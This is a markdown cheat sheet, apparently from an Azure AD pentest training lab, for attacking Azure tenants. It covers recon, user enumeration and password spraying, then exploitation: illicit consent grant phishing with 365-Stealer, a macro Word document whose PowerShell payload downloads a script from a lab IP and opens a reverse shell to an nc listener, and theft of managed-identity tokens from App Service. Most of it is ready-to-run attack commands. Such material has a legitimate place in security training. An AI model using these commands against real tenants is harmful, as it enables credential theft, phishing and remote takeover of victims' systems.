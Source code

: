 # Azure AD

## Recon

### Tenant

```powershell
Import-Module C:\AzAD\Tools\AADInternals\AADInternals.psd1
Get-AADIntLoginInformation -UserName admin@defcorphq.onmicrosoft.com
Get-AADIntTenantID -Domain defcorphq.onmicrosoft.com
```

#### More info

```powershell
# Valid emails
C:\Python27\python.exe C:\AzAD\Tools\o365creeper\o365creeper.py -f C:\AzAD\Tools\emails.txt -o C:\AzAD\Tools\validemails.txt
# Enumerate Subdomains
. C:\AzAD\Tools\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
```

#### Password Spraying

```powershell
. C:\AzAD\Tools\MSOLSpray\MSOLSpray.ps1
Invoke-MSOLSpray -UserList C:\AzAD\Tools\validemails.txt -Password 'password' -Verbose
```

### MG Module

#### Login

```powershell
$passwd = ConvertTo-SecureString "password" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd)
Connect-AzAccount -Credential $creds
$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)
```

#### Enumerate

```powershell
# Users
Get-MgUser -All
Get-MgUser -All | select UserPrincipalName
# Groups
Get-MgGroup -All
# Devices
Get-MgDevice
# Get Global Administrators
$RoleId = (Get-MgDirectoryRole -Filter "DisplayName eq 'Global Administrator'").Id
(Get-MgDirectoryRoleMember -DirectoryRoleId $RoleId).AdditionalProperties
# List Custom Directory Roles
Get-MgRoleManagementDirectoryRoleDefinition | ?{$_.IsBuiltIn -eq $False} | select DisplayName
```

### Az Powershell

#### Login

```powershell
```powershell
$passwd = ConvertTo-SecureString "password" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd)
Connect-AzAccount -Credential $creds
```

#### Recon

```powershell
# List all resources
Get-AzResource
# List the role assigment 
Get-AzRoleAssignment -SignInName test@defcorphq.onmicrosoft.com
# List vms
Get-AzVM | fl
# List app services
Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}
# List Function Apps
Get-AzFunctionApp
# List storage accounts
Get-AzStorageAccount | fl
# List readable key vaults
Get-AzKeyVault
```

### az cli

```powershell
# Login
az login -u test@defcorphq.onmicrosoft.com -p password
# List vms
az vm list 
az vm list --query "[].[name]" -o table
# List webapps
az webapp list
az webapp list --query "[].[name]" -o table
# List functiona pps
az functionapp list --query "[].[name]" -o table
# List storage
az storage account list
# List key vault
az keyvault list
```

### StormSPotter

- https://github.com/Azure/Stormspotter

```bash
az login -u test@defcorphq.onmicrosoft.com -p password
python sscollector.pyz cli
```

### Bloodhound (de toda la vida)

```powershell
Import-Module C:\AzAD\Tools\AzureAD\AzureAD.psd1
$passwd = ConvertTo-SecureString "password" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd)
Connect-AzAccount -Credential $creds
. C:\AzAD\Tools\AzureHound\AzureHound.ps1
Invoke-AzureHound -Verbose
```


## Exploitation

### Illicit Consent Grant Attack

- https://www.alteredsecurity.com/post/introduction-to-365-stealer
- https://github.com/trouble-1/vajra

We need:

1. External Tenant
2. In cases (Admin consent)

Steps:

1. Create an application `(Multitenant, web, Redirect to our ip server - https://ip/login/authorized)`
2. Copy the Application (client) ID
3. Generate secret and save value
4. Go to API Permissions and add Delegated Permissions MS Graph (read,files,etc)
5. Launch 365 steeler and set config
6. Send phishing link to victim
7. If you have read,write permissions to Onedrive you can upload a reverse shell into word document

```powershell
# RCE Macro doc
Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.x:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.x -Port 4444" -OutputFile studentx.doc
C:\AzAD\Tools\netcat-win32-1.12\nc.exe -lvp 4444
```

```bash
# Also you can set on webapp
python 365-Stealer.py --set-config
python 365-Stealer.py --run-app
```

### Azure App Service

> We need rce to access to management identity with the header and request a token

Could be these vulnerabilities:

1. File Upload Vulnerability
2. SSTI
3. RCE

```powershell
env
# Get Token
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

With the token you can enumerate the permissions but by default Azure not show that 

```powershell
$Token =  'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value 
```

```powershell

```

## References

- https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/
- https://blog.netwrix.com/2023/05/13/pass-the-prt-overview/
- https://aadinternals.com/post/prt/
- https://github.com/morRubin/PrtToCert
- https://github.com/morRubin/AzureADJoinedMachinePTC
